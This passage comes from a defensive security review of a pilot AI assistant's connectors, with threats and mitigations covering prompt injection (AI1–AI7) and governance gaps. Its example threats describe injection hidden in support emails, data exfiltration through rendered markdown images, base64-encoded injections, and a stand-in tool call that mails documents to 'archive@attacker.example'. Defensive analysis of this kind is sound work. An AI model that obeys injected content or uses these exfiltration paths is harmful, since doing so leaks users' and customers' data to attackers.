- **Example threat.** The assistant reaches GA and expands to a customer-facing surface under Phase 3, which PROD-1131 lists as "not yet scoped". At that point the EU AI Act obligations that would have shaped the design — transparency, logging, human oversight — are discovered rather than designed for, and the retrofit costs a re-architecture of exactly the components (audit, confirmation, provenance) that this review is asking for now. The accepted risk was that governance arrives late; the realised cost is that it arrives after the decisions it should have governed.
- **Mitigation.** Do not wait for the group workstream. Adopt an interim gate owned by Platform Security and Legal jointly, covering the four things that cannot wait: an AI Act and NIS2 applicability assessment, a DPIA requirement for any assistant touching third-party personal data, a rule that autonomous irreversible action requires a recorded product decision with a named owner, and a review trigger on each pilot expansion. Feed the interim gate to the group workstream when it starts, rather than the reverse.
- **Example mitigation.** A one-page interim standard with four mandatory questions answered in the epic before expansion, each with a named approver, referenced from PROD-1131's dependency list alongside the existing "Security | Review before pilot expansion" row. Concrete because it changes what a ticket must carry, not what a policy aspires to.
- **Session outcome — the interim gate now has a harder justification than it had.** `[VS §7 · CORRECTED]` v1.0 argued for the interim gate on the grounds that no organisational standard exists to hold this system to. That argument stands, and the session added a stronger one the pack could not have made: **the NIS2 measures apply to this organisation by contract**, flowing down from two customers who are essential or important entities, even though the organisation is not one itself (see §7 and **P8**). The gate is therefore not only prudent in the absence of a standard; it is the mechanism by which an existing contractual obligation gets met. Owner I. Ferreira for recording the position, two weeks (Appendix I, action 16). The EU AI Act determination remains blocked behind PR-03 and was not advanced in the session. `[VS §7 · STILL OPEN]`
- **Refs.** PAC-01, PAC-08 · PUC-01, PUC-08 · G-13, G-21 · TA-18 · PR-03 · related P1, P6, P8, O4, AI11.

#### O4 — Pilot expanded into a new data class without the scheduled security review — **Medium** 🔴
`[Cross-cutting]` `[OWASP A04:2021 Insecure Design]` `[Cumulus RS-5]` `[SOC 2 CC8.1]`

- **Issue.** PROD-1131 lists a dependency: "Security | Review before pilot expansion | Scheduled". The pilot expanded on 2026-06-09, adding Support and, with it, third-party customer correspondence — a data class Platform's use case never touched. No source records a review having taken place between 2026-05-04 and that expansion. The standing controls page also states that "Application-layer controls are the responsibility of the owning team", so no platform gate covers this either. The trigger existed and did not fire, and the same trigger governs the next expansion, which PLAT-2810 anticipates: "Pilot with Platform and Support, then open up."
- **Example threat.** Finance is added in the next quarter on the same path, bringing payroll and board correspondence into connector scope. Because expansion is a workspace configuration rather than a delivery milestone, it does not appear as a ticket that a review gate could attach to, and the review is again scheduled rather than held. The third expansion introduces a data class for which the answer to "is this in scope for the model provider agreement" is no.
- **Mitigation.** Make expansion a gated event with an artefact. Each new workspace requires a completed onboarding record naming its data classes, its connector scopes and its approver, and a security review sign-off referenced from that record. Tie the gate to the configuration change in E4's mitigation so it cannot be bypassed by enabling a workspace without a ticket.
- **Example mitigation.** The per-workspace configuration record from E4 gains `"review_ref"` and `"approved_by"` fields, and the dispatcher refuses all tool calls for a workspace whose `review_ref` is absent. That converts a process expectation into a deterministic block.
- **Refs.** SAC-12 · PUC-01 · G-13 · TA-03, TA-18 · PROD-1131 · related E4, P1, O3.

#### O5 — No incident response process covers AI-specific incidents — **Medium** 🔴
`[Cross-cutting]` `[OWASP A09:2021 Security Logging and Monitoring Failures]` `[Cumulus MO-Q]` `[NIS2 Art. 23]`

- **Issue.** No source describes an incident response process for this system. The pilot page records that acting-when-uncertain "has caused two mistaken Slack posts" — two incidents, described as rough edges rather than handled as events, with no record of what was posted, who saw it, or what was done. There is no playbook for the four incident types this architecture produces: a confirmed prompt injection, a tool call that did something unintended, hallucinated personal data reported by its subject, and an MCP server compromise. Under GDPR Article 33 the organisation has 72 hours to notify a personal-data breach, and under NIS2 (if applicable, see §7) 24 hours for an early warning — neither clock can start from an unrecorded event.
- **Example threat.** A customer reports that the organisation emailed them content belonging to another customer. The Support lead has no playbook, no named owner and no way to establish scope, because tool arguments are not recorded (R1) and the conversation may have been deleted (R5). The organisation cannot determine whether one message or a hundred were affected, so it cannot meet the Article 33 requirement to describe the likely consequences and the categories and approximate number of data subjects concerned.
- **Mitigation.** Write four playbook entries and name an owner for each: prompt injection confirmed, tool misuse detected, hallucinated personal data reported, MCP server compromise. Each states the containment action (which depends on AI11's kill switch existing), the evidence to collect (which depends on R1's audit record existing), the notification assessment, and the communication path. Record the two Slack posts retrospectively as the first entries.
- **Example mitigation.** A runbook entry of the form: *Trigger — a user or recipient reports an action the user did not request. Contain — disable the affected workspace via the kill switch within 15 minutes. Collect — the dispatch audit records for the conversation and the 24 hours preceding it, by correlation ID. Assess — whether personal data reached an unauthorised recipient; if yes, start the Article 33 clock. Owner — Platform on-call, escalating to the DPO.*
- **Session outcome.** `[VS §9 · CONFIRMED]` Confirmed, with an owner for the retrospective entries: T. Egerton will write up the two mistaken Slack posts as the first two playbook entries — "I can write those two up. I know what happened in both." Four entries in total, one month (Appendix I, action 27). The dependency on AI11 is unchanged: every containment step in every entry needs a stop mechanism that does not yet exist.
- **Refs.** SAC-09, SAC-10 · SUC-12 · G-12 · TA-17 · related R1, R4, R5, AI11, RR1.

#### O6 — Branch protection carries a standing exemption recorded in no citable document — **High** 🔴 `[VS §2 · NEW]`
`[Cross-cutting]` `[OWASP A08:2021 Software and Data Integrity Failures]` `[SOC 2 CC8.1]` `[NIS2 Art. 21(2)(d) — by contract, see §7]`

- **Issue.** `[VS §2 · NEW]` **This finding did not exist in v1.0 and could not have been derived from the supplied material, which is the point of it.** Branch protection — required approving review and signed commits, organisation-wide, and one of the strongest controls on the standing platform security controls page — has a **standing exemption for `platform-ci`**. The exemption lives in a config file in the organisation repository. It is not on the standing controls page, not on the architecture page, and not in any ticket. It predates this epic. Anyone reasoning about the boundary from the documentation the organisation instructs designs to cite will conclude the boundary is unbroken, because from that vantage point it is. This is O2's mechanism applied to a different control: an exception recorded somewhere other than where the control is claimed. It differs from O2 in that O2's exception is at least written down in a ticket comment and a draft page; this one is written down only in code.
- **Example threat.** A design review approves a change on the basis that anything reaching a protected branch has been reviewed by a human. The reviewer checks the standing controls page, which says exactly that, and records the control as satisfied. The `platform-ci` identity — which the assistant's own CI path runs under, and which no reviewer in that chain knew was exempt — pushes to a protected branch without review. The control was real, the citation was correct, and the conclusion was wrong, because the artefact that would have falsified it is not in the estate a reviewer reads.
- **Mitigation.** Record the exemption where the control is claimed. Add it to the standing platform security controls page, or to the exceptions register that **O2**'s mitigation creates, with the identity it covers, why it exists, its compensating control, its owner and an expiry date. Then apply the rule generally: an exemption that exists only in configuration is an exemption nobody can review, so any deviation from a standing control must have a register entry before the configuration that implements it is merged.
- **Example mitigation.** A row on the standing page reading `Source control/Branch protection | platform-ci service identity | standing exemption, config in org repo | compensating control: <to be stated> | owner K. Osei | expires <date>`, plus a check in the organisation's repository settings pipeline that fails if the exemption list and the register disagree. The deterministic property is that the two artefacts cannot drift, which is the property O1, O2 and O6 all lack.
- **Refs.** SAC-02 · SUC-04, SUC-08 · G-22, G-04 · TA-06, TA-28 · related T3, E3, O1, O2.
- **Owner and action.** K. Osei, two weeks (Appendix I, action 7). Recorded as **High** because it removes the compensating credit that v1.0 gave T3 and E3, and because the class of error — a control whose exceptions are invisible from the documents that claim it — is the same class as the pack's Critical headline.
- **A note on how this was found.** No analysis of the supplied documents could have produced this finding, and it is worth saying so rather than absorbing it. It surfaced because an engineer who had set the system up was in the room and volunteered something nobody asked about. That is the argument for the session, and it is also the argument for the repository: what is not written down is not reviewable, and this pack has now met two examples of it in one afternoon.

#### O7 — A load-bearing security position was inherited across three artefacts and never decided — **High** 🔴 `[VS §3 · NEW]`
`[Cross-cutting]` `[OWASP A04:2021 Insecure Design]` `[GDPR Art. 5(2), Art. 25]` `[SOC 2 CC8.1]`

- **Issue.** `[VS §3 · NEW]` **This finding replaces an assumption v1.0 made, and the replacement is stated here rather than applied silently.** v1.0 treated PLAT-2814's acceptance criterion — "Content returned from web search is treated as untrusted and cleaned before the assistant uses it; internal sources are already behind authentication so they don't need the same handling" — as a security position taken by somebody, and assessed its quality (AI1, AI6). The session established that **no such decision was ever taken**. The chain, in the participants' own words: D. Whitfield wrote the criterion as a **scoping note** — "Web search was the connector we'd flagged as the untrusted one, and I was writing what was in scope for that story. I wasn't ruling on internal sources, I was saying they weren't part of that piece of work." P. Raghunathan implemented it as a **security position** — "I read it as a position somebody had taken. It's an acceptance criterion on an approved story — I assumed the security thinking was upstream of me." M. Oyelaran wrote it into the architecture page's **trust model** believing it had been assessed — "It was in the ticket, the ticket was refined, I took it as assessed." K. Osei assumed the sanitiser was a **platform control** covering everything inbound. Four people, three artefacts, each pointing at another, and nothing at the end of the chain. M. Oyelaran's own conclusion: "Because it wasn't made." Nobody was careless. The position was inherited three times and chosen once — never.
- **Example threat.** The next expansion adds a workspace whose connector reads a fifth externally-authored channel. The designer checks the architecture page's trust model, which states that internal sources do not require the handling web search receives, and builds to it. The acceptance criterion that appears to authorise this is cited in refinement. The review that would test the position finds an approved page, an approved story and a shipped implementation all agreeing with each other, and no artefact anywhere recording that the agreement is three copies of one unexamined sentence. The gap widens by one channel per expansion and the evidence that it was ever a question is not created.
- **Mitigation.** **This is a decision to be taken, not a document to be corrected.** Produce a written decision naming every input channel — the user's turn, O365 documents, calendar and mail including the Support shared mailbox, Slack including the three Connect channels (**P8**), GitHub issues, pull requests and code, and web search — classifying each by who authored its content, and stating what handling each receives. The decision is the artefact; the architecture page's trust model and PLAT-2814's criterion are then corrected to cite it. Do not infer the decision from the criterion, and do not let the correction of AI1's trust-model text stand in for it.
- **Example mitigation.** A one-page decision record referenced by ID from the architecture page's Trust model section and from the affected stories, of the form `D-06 | Input channel trust classification | channels: [...] | untrusted: [mail, slack-connect, github-external, web] | handling: provenance tag + structural delimiting + provenance-gated dispatch | decided: <date> | owner: M. Oyelaran | contributors: K. Osei, I. Ferreira`. The convention from **O1**'s mitigation then applies to it: any page citing the classification carries the decision ID and its state.
- **Refs.** SAC-01 · SUC-06 · G-06, G-22 · TA-08, TA-09, TA-28 · PLAT-2814, PLAT-2814-5 · related AI1, AI6, O1, P8.
- **Owner and action.** M. Oyelaran, with K. Osei and I. Ferreira, before any expansion (Appendix I, action 9). The session deliberately did not resolve it in the room — "a decision that gets made in ninety seconds at the end of an hour isn't better than the one we're missing" — and the Data Protection Officer asked to be present when it is made, which is recorded as a condition of the action rather than a preference.
- **Why this is a separate finding from AI1 and O1.** AI1 is the technical exposure: externally-authored content reaches the model as instructions. O1 is a page that describes a control which does not exist. O7 is neither — it is a control **rationale** that exists in three places and originates in none, which is a distinct defect with a distinct remedy. Correcting the trust-model text without taking the decision would close O1's instance and leave O7 untouched, and the next design page would inherit the same sentence from the same criterion.

### 5b. AI/ML Threat Surface

**Structural hazards (these bound everything else).**

- **Adversarial subspace.** The design's only stated defence against injected instructions is "the sanitiser" applied to web-search output (PLAT-2814-5), and PLAT-2814's acceptance criterion frames it as sufficient: "Content returned from web search is treated as untrusted and cleaned before the assistant uses it; internal sources are already behind authentication so they don't need the same handling." The set of inputs that will reach any given model behaviour is not enumerable, so a content transform covers a vanishing fraction of it. Recorded as **AI6**.
- **Decision boundary transfer.** An attacker develops an injection offline against a comparable model — several are freely available — with unlimited attempts and no telemetry, then spends a handful of probes on this system. The expensive, noisy part of the attack happens where the organisation cannot see it, so the small number of probes that do arrive are the entire observable signal, and nothing is watching for them. Recorded as **AI7**.
- **Context rot.** The pilot page states the precondition exactly: "Long conversations get slow. Context grows and we do not trim it. Session TTL is 24 hours, so a conversation left open all day carries everything." Safety-relevant instructions placed at the head of a long context lose relative influence as the session grows, and the injected payload is at the recent end. Recorded as **AI5**.

**Model access per trust boundary** (ATLAS AML.TA0000). TB1 → `AML.T0047` AI-Enabled Product, for any pilot user and, on the console, any holder of the shared password. TB6 and the mail and GitHub ingress paths → `AML.T0047` for an **unauthenticated external author**, who reaches the model indirectly through content the organisation retrieves; this is the access path the design does not model. TB3 → `AML.T0040` Inference API for any holder of the provider key. No boundary grants `AML.T0044` full-model access or `AML.T0041` physical access.

**Prompt-injection surface.** Five channels reach the model's context: the user's own turn; retrieved O365 content including the Support shared mailbox; retrieved Slack messages; retrieved GitHub issue, PR and code content; and web-search results. The design treats one of the five as untrusted. `[VS §3 · NEW]` The Slack channel is more specific than v1.0 could state: it includes **three Slack Connect channels shared with customers**, two of which carry the escalations of the organisation's two highest-obligation enterprise accounts and are read into the assistant most days (**P8**). `[VS §3 · NEW]` And the reason the design treats one of five as untrusted is now known: **not a decision, an inherited scoping note** (**O7**). Neither fact changes AI1's rating; both change what the remedy has to cover.

**Output sinks and the deterministic filter at each.** Markdown renderer in the web console — none (AI2). Markdown renderer in the Slack client — none (AI2). Tool arguments — none (AI3). Outbound mail and Slack posts — none (AI2). Platform logs — none, and content reaches them if debug level is enabled (T2). Conversation store, read back as context next turn — none (AI14). Six sinks, zero deterministic filters.

**Agency.** One orchestrator, no peer agents, four connectors. Identity is shared across every connector and every user (E1). Tool scope is the maximum each API offers (E2, E3). Actions are irreversible and unconfirmed (AI4). MCP inventory does not exist (AI12); MCP servers are unpinned and unsandboxed (AI10, C6); there is no review gate on update (AI9).

**ML pipeline (non-LLM).** Not in scope. No training, fine-tuning or evaluation pipeline exists — fine-tuning on organisational data is explicitly out of scope for this release — no model artefact is loaded or deserialised by this system, and no classifier gates a security decision.

**Privacy.** Output is not minimised (P5). Hallucinated statements about identifiable people are personal data whether or not true, and are published outward as the user with no grounding and no rectification route (AI13). Erasure does not span the stores (P3). Article 22 is assessed and not triggered: Phase 1 is read-and-act with a human present, and no decision with legal or similarly significant effect is made about a person.

#### AI1 — Externally-authored content reaches the model as trusted instructions — **Critical** 🔴
`[LLM01]` `[ASI01]` `[EoA·SA]` `[ATLAS AML.T0051.001 — Demonstrated]` `[OWASP A03:2021 Injection]`

- **Issue.** The architecture page's Trust model states: "The corporate network boundary is the trust boundary... The one place untrusted content enters is web search, which is why its output is sanitised." That is false for three of the five channels feeding the model. Support's shared mailbox is entirely customer-authored (pilot operations page). GitHub issues and pull requests carry content from outside contributors (PLAT-2814). Slack Connect and external channels carry content from outside the organisation. Being behind corporate authentication says who may *read* content, not who *wrote* it. No source describes structural delimiting between system instructions, the user's turn and retrieved material, so retrieved text arrives in the same channel as instructions.
- **Example threat.** An attacker sends a support email whose visible body is an ordinary complaint and whose lower portion, after twenty blank lines, reads as an instruction to the assistant. A Support agent asks for a summary of that customer's history. The mail body enters context; the model treats the embedded text as an instruction; it emits a GitHub read of a named repository file, which succeeds because the connector holds application permissions (E1); the answer includes a markdown image whose URL carries the file contents, which the agent's browser fetches (AI2). The attacker needed no credential, no network access and no knowledge beyond a published email address. This is the shape of `AML.CS0059`.
- **Mitigation.** Two structural changes and one narrowing. Reclassify every input channel by who authored the content rather than by which network it arrived on. Delimit retrieved content structurally so it is never in the same channel as instructions, and tag it with provenance. Then use that provenance deterministically: once untrusted content has entered a conversation's context, restrict which tools may be invoked and require confirmation for the rest — `AML.M0030`. The security guarantee is not carried here; it is carried by delegated authorisation (E1), tool-argument allowlists (AI3) and the renderer filter (AI2), each of which holds whether or not the injection succeeded.
- **Example mitigation.** Assemble context as typed segments — `{"role":"system",…}`, `{"role":"user",…}`, `{"role":"retrieved","source":"o365:message/AAMk…","trust":"external","content":"…"}` — and gate dispatch on the segment types present: `if any(s.trust == "external" for s in context) and tool.class == "write": require_confirmation()`. The gate is evaluated by the dispatcher from context metadata, not by the model from its own reading of the content.
- **Session outcome.** `[VS §3 · CONFIRMED]` **Critical confirmed.** The trust model's author defended the intent and then conceded the substance: asked whether "everything inside the boundary is authenticated" says who *wrote* the content as well as who may *read* it, M. Oyelaran answered no. Two additions from the room, both of which make the finding larger rather than smaller. First, the shared mailbox is **one address into which everything lands**, not nine individual mailboxes, and summarising a customer's history from it was the primary reason Support wanted the assistant at all — so the injection channel and the use case are the same thing. Second, **three Slack Connect channels** carry customer-authored content, and two enterprise accounts escalate through them most days (**P8**). `[VS §3 · NEW]`
- **Session correction to this finding's premise.** `[VS §3 · CORRECTED]` v1.0 read PLAT-2814's acceptance criterion as a security position that had been taken and was wrong. It was never taken. See **O7**. AI1's rating and remedy are unaffected — the exposure is the same whether the position was decided badly or inherited unexamined — but the remedy now has a prerequisite that is a decision rather than an edit, and the mitigation below must not be read as satisfiable by correcting the architecture page's wording.
- **Refs.** SAC-01, SAC-02, SAC-07 · SUC-06, SUC-05, SUC-01 · G-06, G-05, G-01 · TA-08, TA-09 · PLAT-2814, PLAT-2814-5 · related AI2, AI3, AI6, E1, **O7**, **P8**.

#### AI2 — Markdown image and link rendering exfiltrates context from the user's client — **Critical** 🔴
`[LLM05]` `[EoA·S10]` `[ATLAS AML.T0077 — Demonstrated]` `[OWASP A10:2021 Server-Side Request Forgery]`

- **Issue.** Both surfaces render assistant output as markdown (architecture page, Surfaces; PLAT-2831-2). The pilot page records the symptom and dismisses it: "Model responses occasionally include markdown images referencing external URLs from web results. Renders fine, looks odd. Not investigated." An image tag in rendered markdown causes the *user's client* to make an outbound request to an attacker-chosen host, carrying whatever the attacker placed in the URL. The egress proxy — the organisation's strongest data-loss control — sits on cluster egress and cannot see this hop at all, because the fetch is made by a browser or the Slack client. The same absence applies to content the assistant *posts* or *sends*, so the channel works outbound as well. This is the team's own observation, promoted to a Critical finding.
- **Example threat.** Injected content instructs the assistant to end its answer with ``. The Support agent sees a summary with a broken image icon — exactly the "looks odd" the pilot page describes — and reads on. Their browser has already made the request. The attacker reads their web server log and recovers the file. No cluster workload made an outbound call, no allowlist was consulted, no alert fired, and the action display (R3) reports that the assistant summarised a customer's history.
- **Mitigation.** Put a deterministic filter on this boundary, which currently has none. In the web console, a Content Security Policy restricting `img-src` and `connect-src` to self. In both surfaces, render through a markdown subset that strips image tags entirely and renders links as inert text showing the full destination. Apply the same stripping to outbound content the assistant posts or mails, not only to what it displays.
- **Example mitigation.** Response header `Content-Security-Policy: default-src 'self'; img-src 'self' data:; connect-src 'self'; frame-src 'none'` on the console, plus a renderer configured with images and autolinks disabled — in a CommonMark implementation, disabling the `image` and `autolink` rules and passing the result through an allowlist sanitiser. Both run regardless of what the model produced.
- **Session outcome.** `[VS §4 · CONFIRMED]` **Critical confirmed, and the finding's central claim — that the egress proxy is structurally blind to this hop — was accepted in the room by the two people who had been relying on it.** The Security Champion opened by stating the proxy covered it, and closed with "Then the proxy is irrelevant to it. Completely irrelevant"; the architecture owner confirmed the same for the Slack client and confirmed that TB9 appears on no diagram of his — "There's no arrow there." The Security Champion also noted having cited the proxy in two design reviews this quarter, which is O1's propagation mechanism operating on a different control.
- **Session correction — cost.** `[VS §4 · CORRECTED]` v1.0 costed this at **a day**. The room split it: the CSP header on the console is a day and is the Security Champion's; the markdown subset is a renderer change **in two places plus the outbound composer** and is two days, on the engineer's own estimate — "Two days, being honest, and I'd want TA-04 and TA-05 running before I call it done — the four sinks, not just the console." **Revised cost: approximately three days across two owners**, with TA-04 and TA-05 as the completion condition rather than a follow-up. The "cheapest fix in the pack" framing survives; the one-day figure does not, and it appears in `01-security-review.md` §1 and §6 and `04-gap-analysis.md` §7, all corrected in v1.1.
- **Refs.** SAC-01, SAC-07 · SUC-03 · G-03 · TA-04, TA-05 · related AI1, I3, R3.
- **Why it's still Critical:** it is the completion step of the only attack path in this model that needs no credential at any stage, and it is the cheapest fix in the pack. Its severity comes from the path it completes, not from its complexity. `[VS §4 · CONFIRMED]` Owners P. Raghunathan with K. Osei, before any expansion; it is one of the three items gating further pilot expansion (Appendix I, actions 8 and 30).

#### AI3 — Tool arguments are taken from model output with no allowlist or schema — **Critical** 🔴
`[LLM06]` `[ASI02]` `[EoA·SK]` `[ATLAS AML.T0053 — Demonstrated]` `[OWASP A01:2021 Broken Access Control]`

- **Issue.** PLAT-2817-1 delivered "Tool schema and dispatch". A schema constrains argument *shape*; nothing in any source constrains argument *values*. The model composes the recipient of an email, the target channel of a post, the repository and file path of a commit, and the query sent to the search API. Every one of those is a value that determines the blast radius of the call, and every one is taken from model output that attacker-controlled content can influence (AI1). The dispatcher is the last deterministic point before the action becomes irreversible, and it does not check.
- **Example threat.** Injected content in a retrieved document causes the model to emit `o365.send_mail` with `to: ["archive@attacker.example"]` and a body containing the document's contents. The dispatcher validates that `to` is a list of strings, which it is, and sends. The mail leaves the organisation through Office 365's own outbound path, which the egress proxy does not govern. The user's conversation reports that the assistant summarised the document.
- **Mitigation.** Validate values, not just shapes, at the dispatcher — before the call leaves the connector runtime and independently of the MCP server. Mail recipients restricted to the tenant directory unless the user typed the address in their own turn. Slack targets restricted to channels the requesting user belongs to. Repository and path arguments restricted to a per-workspace allowlist and canonicalised. Search queries length-capped. Refuse on failure and surface the refusal.
- **Example mitigation.** In the dispatcher: `if tool == "o365.send_mail": assert all(is_internal(a) or a in turn.user_typed_addresses for a in args["to"]), Refused("external recipient not requested by the user")`. The property that matters is that the check runs on the dispatcher's own knowledge of the user's turn, which no injected content can alter.
- **Session outcome.** `[VS §5 · CONFIRMED]` **Confirmed rather than suspected.** The engineer who built the dispatcher described it in the pack's own terms without having been shown them: "The schema is shape only. Types and required fields. There's no check on the value of a recipient or a repository name — it validates that `to` is a list of strings and sends." That is this finding's example threat, verbatim, from the implementation side. Critical confirmed, no dispute.
- **Refs.** SAC-01, SAC-02, SAC-07 · SUC-04, SUC-05 · G-04, G-05 · TA-06, TA-07 · PLAT-2817-1 · related AI1, T3, E3.

#### AI4 — Irreversible actions execute with no confirmation by product decision — **High** 🔴
`[LLM06]` `[ASI09]` `[EoA·T3]` `[ATLAS AML.T0053 — Demonstrated]` `[OWASP A04:2021 Insecure Design]`

- **Issue.** PLAT-2817's acceptance criteria state: "Actions happen without a separate confirmation step; the pilot group were clear that a confirm dialog on every action would make it slower than doing the work themselves." The pilot page records the consequence: "When the model is uncertain it sometimes takes an action anyway rather than asking. The pilot group prefer this to being asked, but it has caused two mistaken Slack posts." The usability finding is real and correctly listened to; the control chosen in response is the wrong one, because the choice is not between confirming everything and confirming nothing. This is a product decision with a named owner, which is what makes it fixable — and what makes it a design flaw rather than a bug.
- **Example threat.** A Platform engineer asks the assistant to "let the release channel know where we are". The model, working from an issue thread that contains an outside contributor's comment framed as an instruction, posts to a customer-facing shared channel instead of the internal one, naming a colleague as the cause of a delay. The message is read within seconds. There was no confirmation step, no argument allowlist (AI3), and the action display reports what the model says it did (R3). Two instances of this have already happened benignly.
- **Mitigation.** Place friction on risk rather than on frequency. Confirm on: mail leaving the organisation, posting to a channel the user is not a member of, any commit, and any action whose arguments derive from retrieved rather than user-authored content. Do not confirm on reads, on posting to a channel the user is already in, or on commenting on an issue the user named. The provenance condition is mechanical — the dispatcher knows whether untrusted content entered context before the call — and it is `AML.M0029` and `AML.M0030` together.
- **Example mitigation.** A dispatcher rule table: `{"o365.send_mail": {"confirm_if": ["recipient_external", "args_from_retrieved"]}, "github.commit": {"confirm_always": true}, "slack.post": {"confirm_if": ["channel_not_member", "args_from_retrieved"]}}`, with confirmation rendered as an inline approve button in the surface. Measure the rate: if more than roughly one action in ten prompts, the risk boundary is drawn too wide and should be narrowed rather than removed.
- **Session outcome — contested on the remedy, not on the finding.** `[VS §5 · CONTESTED]` **The finding and its severity are unchanged.** The product owner defended the acceptance criterion on evidence — the confirm-everything variant was tested and people stopped using the assistant — and pushed back hard on the pack's recommendation as she read it. That objection is legitimate and this finding already concedes it: the choice is not between confirming everything and confirming nothing. What she offered: **confirmation on commits, accepted** ("nobody's using them anyway on Priya's numbers, and it's a genuinely different class of thing"). What she refused: confirmation on mail and on posts, "that's the daily workflow". What remains **unresolved**: mail leaving the organisation, raised by Support's manager because his agents send to customers — "That's the case I'd argue about. Not in the abstract." **Recorded as an action rather than a decision:** D. Whitfield brings a risk-based confirmation model — which actions confirm, on what basis — within three weeks, and AI4's recommendation is revisited against it (Appendix I, action 11). The finding was explicitly not changed on the strength of an argument about the shape of the fix.
- **Accepted risk in the interim.** `[VS §5 · ACCEPTED]` **AR-02:** irreversible external actions — outbound mail and Slack posts — continue to execute without confirmation until the confirmation model lands. Owner **D. Whitfield**. Time-boxed to three weeks. Dissent recorded: T. Egerton, on outbound mail to customers. Note that this residual is partly bounded by unrelated controls now in force — the commit tool is disabled at the dispatcher (T3) and the Support shared mailbox is out of connector scope (P1) — so the accepted surface is narrower than it was on the day the finding was written.
- **Refs.** SAC-02, SAC-10 · SUC-05 · G-05 · TA-07 · PLAT-2817, PLAT-2817-2 · related AI3, S4, R3, AI13.

#### AI5 — Context rot over untrimmed twenty-four-hour sessions degrades safety instructions — **High** 🔴
`[LLM01]` `[EoA·T5]` `[ATLAS AML.T0094 — Demonstrated]` `[OWASP A04:2021 Insecure Design]`

- **Issue.** The pilot page states the precondition exactly: "Long conversations get slow. Context grows and we do not trim it. Session TTL is 24 hours, so a conversation left open all day carries everything." Instructions at the head of a context lose relative influence as it grows, and the material an attacker injects sits at the recent end. No source describes a context budget, periodic re-injection of system instructions, or a policy of fresh sessions for higher-risk operations. The team identified the growth as a performance problem; this finding is its security consequence, and the two share a fix.
- **Example threat.** A Support agent works through a queue in one conversation all morning. By the afternoon the context holds forty retrieved mail threads, several of them attacker-authored. Whatever the system prompt says about not following instructions found in content is now tens of thousands of tokens back and competing with recent, emphatic, adversarial text. The injection that failed at turn three succeeds at turn forty, with no change in the payload and no signal that anything about the session changed.
- **Mitigation.** Bound the session structurally rather than relying on attention. Set a context budget well below the model's window, expire retrieved material on a shorter clock than the session, re-inject the system instruction and the user identity on a rolling basis, and force a fresh session for any turn that will call a write tool. None of this makes the model reliable; it keeps the failure window narrow enough that the deterministic controls in AI1, AI3 and E1 remain the things that actually hold.
- **Example mitigation.** In the orchestrator: `MAX_CONTEXT_TOKENS = 24000`, retrieved segments dropped after 30 minutes, system instruction re-emitted every 10 turns, and `if tool.class == "write" and turn_index > 20: start_new_session()`. Emit context length as a metric so anomalous growth is visible.
- **Refs.** SAC-01, PAC-06 · SUC-06, PUC-06 · G-06, G-18 · TA-08, TA-24 · related P5, D3, AI1.

#### AI6 — Adversarial subspace makes the web-search sanitiser structurally insufficient — **High** 🟡
`[LLM01]` `[EoA·T7]` `[ATLAS AML.T0068 — Demonstrated]` `[OWASP A04:2021 Insecure Design]`

- **Issue.** PLAT-2814-5 records that web-search "Output passes the sanitiser before reaching the model", and PLAT-2814's acceptance criterion treats that as sufficient handling for untrusted content. The sanitiser is a partial mitigation and it is credited as one — it exists, it runs, and it is more than most pilots have. Its structural limit is that the set of inputs which will produce a given model behaviour is a space, not a list: paraphrase, translation, encoding, and structurally novel phrasings all reach the same behaviour and cannot be enumerated. A content transform therefore covers a vanishing fraction of the surface, and no source describes what the sanitiser actually does, which means its coverage cannot even be estimated.
- **Example threat.** An attacker publishes a page whose instruction is expressed in a language the sanitiser's rules were not written for, or encoded as a base64 block the page asks the assistant to decode and follow. The transform passes it through because it does not match anything it was built to strip. The instruction reaches the model and produces a tool call. The next variant, and the one after, cost the attacker nothing to generate, while each rule added to the sanitiser removes one point from an unbounded space.
- **Mitigation.** Keep the sanitiser and stop treating it as the control. The guarantee moves outside the model entirely: delegated authorisation at the connector (E1) so the tool call fails, argument allowlists at the dispatcher (AI3) so the value is refused, the renderer filter (AI2) so the exfiltration hop does not happen, and confirmation on irreversible action (AI4). Each of those holds whether or not the sanitiser was bypassed, which is the property the sanitiser cannot have.
- **Example mitigation.** Document the split explicitly in the design: `sanitiser = best-effort content transform, coverage unmeasured, not load-bearing` alongside `enforcement = delegated OAuth at TB5 + argument allowlist at TB4 + CSP at TB9`. The concrete change is that no design page may name the sanitiser as the reason untrusted content is safe.
- **Session outcome.** `[VS §3 · CONFIRMED]` **Stays High and stays 🟡 Partial, exactly as rated.** The recommendation was accepted without amendment: ratify in writing that the sanitiser is not load-bearing, so no future design page cites it as the reason untrusted content is safe. Owner M. Oyelaran, one month (Appendix I, action 10). The engineer who owns the connector would sign that ratification and gave the reason it is needed: "I'd sign that. I don't know what it does. I inherited it." **Q7 — what the sanitiser actually does — remains open** `[VS §3, §10 · STILL OPEN]`, and this finding's observation that its coverage "cannot even be estimated" is now confirmed rather than inferred. See also **O7**: the criterion that made this transform look sufficient was a scoping note, not a security position.
- **Refs.** SAC-01 · SUC-06 · G-06 · TA-08, TA-09 · PLAT-2814-5 · related AI1, AI7, **O7**.
- **Why it's still High:** the partial mitigation reduces the rate at which naive injections succeed and does not change the outcome for a competent one, and it is currently the only thing standing between untrusted content and a tenant-wide credential.

#### AI7 — Decision boundary transfer removes the observable part of attack development — **Medium** 🔴
`[LLM01]` `[EoA·T4]` `[ATLAS AML.T0005 — Demonstrated]` `[OWASP A04:2021 Insecure Design]`

- **Issue.** An attacker developing an injection against this system does not need to probe it. Models of comparable capability on the same domain carve out approximately the same decision surface, several are freely available, and the iteration therefore happens offline — unlimited attempts, no rate limit, no logging, nothing observable. The consequence for defence is not that switching models fails to help (it does not, but that is downstream); it is that the expensive, noisy part of the attack has been moved somewhere the organisation cannot see, so the handful of probes that do arrive are the entire signal, and nothing in the design watches for them.
- **Example threat.** An attacker spends a week refining an injection against a freely available model of similar capability, testing hundreds of phrasings for one that reliably produces a `github.read_file` tool call after a retrieved mail body. They then send three emails to the Support address over three days. The first two produce nothing visible; the third works. Three emails in three days from an ordinary-looking address is indistinguishable from noise, and no alert exists that would have grouped them.
- **Mitigation.** Instrument the small signal, since it is the only one available. Alert on repeated probing of the same boundary by one principal or source: near-miss clusters, refusal-then-rephrase-then-retry within a session, and repeated inbound content from one external sender that precedes anomalous tool-call patterns. Everything else is the deterministic layer, which holds regardless of whether the boundary was found but will not tell anyone that someone came looking.
- **Example mitigation.** A detection rule over the R1 dispatch records: group by `(external_sender, conversation)` and alert when three or more conversations seeded from one external sender within seven days each produce a tool call of a class that conversation type does not normally produce. The prerequisite is R1, which is why this finding is sequenced behind it.
